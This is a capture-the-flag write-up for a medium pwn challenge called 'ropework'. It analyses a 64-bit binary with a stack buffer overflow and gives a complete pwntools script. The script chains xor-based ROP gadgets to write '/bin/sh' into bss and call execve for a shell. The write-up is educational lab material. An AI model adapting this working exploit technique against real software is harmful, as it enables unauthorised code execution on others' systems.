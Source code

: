 # ropework

Author: [d1g174l_f0rtr355](https://twitter.com/BhaskaraShravya)

Solves: 9

Difficulty: Medium 

## Preliminary Analysis:

We notice that the binary is a 64-bit non-stripped binary with the folloeing protections:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
## Understanding the challenge:

The binary itself is very simple:
```
  char s[16]; // [rsp+0h] [rbp-10h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  system("echo 'The fisherman is trying to untangle his fishing knots. If you could help him with it, it would be great!\n'");
  fgets(s, 329, stdin);
  system("echo 'Ok bye!\n'");
  return 0;
```

Since there is no other function to return to and with PIE being disabled, we can begin our exploitation by creating a suitable ROP chain. There could be other ways pf creating the ROP chain with the available gadgets. I would be showing one of those methods.

## Exploitation:

The ROP chain is made up of the following instructions:

```
pop_rdi = 0x0000000000401273# pop rdi ; ret
pop_rsi = 0x0000000000401271# pop rsi ; pop r15 ; ret
pop_r12 = 0x000000000040126c# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret

xor_rax_rax = 0x0000000000401182# 
xor_rax_rbx = 0x0000000000401186
xor_rbx_rbx = 0x000000000040118a
xor_rdx_rbx = 0x000000000040118e
xor_rdx_rdx = 0x0000000000401192

mov_rbx_r10 = 0x000000000040117e
movq_rdx_r10 = 0x000000000040119e# mov qword ptr [rdx], r10 ; ret

xor_r10_r10 = 0x0000000000401196
xor_r10_r12 = 0x000000000040119a

ret = 0x0000000000401205
syscall = 0x00000000004011a2
```

Upon xorring two same registers, the registers get nulled out. We can transfer the contents of a register to another using xor with the help of a similar technique. Since anything xorred with 0 is the number itself, we make use of this concept to eventually place the string "/bin/sh" into a bss address. We then pop the address into register `rdi`. We also set `rax` to contain `0x3b` and null out registers `rsi` and `rdx` before making the syscall.

## Exploit:

```
from pwn import *

p = process('./ropework')
#gdb.attach(p, gdbscript='set follow-fork-mode parent\n')
#p = remote('localhost', 4008)
p.recvline()

'''
gadgets
'''
pop_rdi = 0x0000000000401273
pop_rsi = 0x0000000000401271
pop_r12 = 0x000000000040126c

xor_rax_rax = 0x0000000000401182
xor_rax_rbx = 0x0000000000401186
xor_rbx_rbx = 0x000000000040118a
xor_rdx_rbx = 0x000000000040118e
xor_rdx_rdx = 0x0000000000401192

mov_rbx_r10 = 0x000000000040117e
movq_rdx_r10 = 0x000000000040119e

xor_r10_r10 = 0x0000000000401196
xor_r10_r12 = 0x000000000040119a

ret = 0x0000000000401205
syscall = 0x00000000004011a2

bss = 0x404030

pay = 'a'*0x10
pay += 'b'*0x8
pay += p64(ret)# leave_ret

pay += p64(pop_r12)
pay += p64(bss)
pay += p64(0x0)
pay += p64(0x0)
pay += p64(0x0)

pay += p64(xor_r10_r10)
pay += p64(xor_r10_r12)

pay += p64(xor_rbx_rbx)
pay += p64(mov_rbx_r10)

pay += p64(xor_rdx_rdx)
pay += p64(xor_rdx_rbx)

pay += p64(pop_r12)
pay += p64(u64("/bin/sh\x00"))
pay += p64(0x0)
pay += p64(0x0)
pay += p64(0x0)

pay += p64(xor_r10_r10)
pay += p64(xor_r10_r12)

pay += p64(movq_rdx_r10)

pay += p64(pop_rdi)
pay += p64(bss)

pay += p64(pop_r12)
pay += p64(0x3b)
pay += p64(0x0)
pay += p64(0x0)
pay += p64(0x0)

pay += p64(xor_r10_r10)
pay += p64(xor_r10_r12)

pay += p64(xor_rbx_rbx)
pay += p64(mov_rbx_r10)
pay += p64(xor_rax_rax)
pay += p64(xor_rax_rbx)

pay += p64(xor_rdx_rdx)

pay += p64(pop_rsi)
pay += p64(0x0)
pay += p64(0x0)

#pay += p64(xor_rbx_rbx)

pay += p64(syscall)
#pay += p64(ret)

print(len(pay))
p.sendline(pay)
p.interactive()

```

